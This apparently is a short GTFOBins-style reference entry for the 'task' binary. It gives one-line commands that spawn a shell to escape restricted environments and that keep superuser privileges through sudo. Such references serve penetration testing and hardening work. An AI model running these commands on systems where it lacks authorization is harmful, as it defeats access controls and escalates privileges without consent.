 # GTFOBin: task

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
task execute /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo task execute /bin/sh
```